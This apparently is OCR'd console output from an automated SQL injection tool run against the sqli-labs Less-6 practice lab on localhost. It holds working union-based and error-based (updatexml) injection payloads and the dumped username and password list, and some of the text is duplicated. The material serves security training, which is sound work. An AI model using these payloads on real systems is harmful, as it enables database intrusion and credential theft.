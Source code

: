  emails  
 referers  
 uagents  
 users  
开始输出：（格式例）username----password

Dumb-----Dumb
Angelina-----I-kill-you
Dummy-----p@ssword
secure-----crappy
stupid-----stupidity
superman-----genious
batman-----mob!le
admin-----admin
admin1-----admin1
admin2-----admin2
admin3-----admin3
dhakkan-----dumbo
admin4-----admin4
562245610@qq.com-----123456



url: http://127.0.0.1/sqli-labs/Less-6
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ok]
即将开始联合注入

........
select查询的字段数为:3

联合注入payload： http://127.0.0.1/sqli-labs/Less-6/?id=1"  and 1 = 0 union select 1,version(),database() %23

判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-6/?id=1"  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23

 5.5.53
报错注入成功

 emails  
 referers  
 uagents  
 users  
开始输出：（格式例）username----password

Dumb-----Dumb
Angelina-----I-kill-you
Dummy-----p@ssword
secure-----crappy
stupid-----stupidity
superman-----genious
batman-----mob!le
admin-----admin
admin1-----admin1
admin2-----admin2
admin3-----admin3
dhakkan-----dumbo
admin4-----admin4
562245610@qq.com-----123456
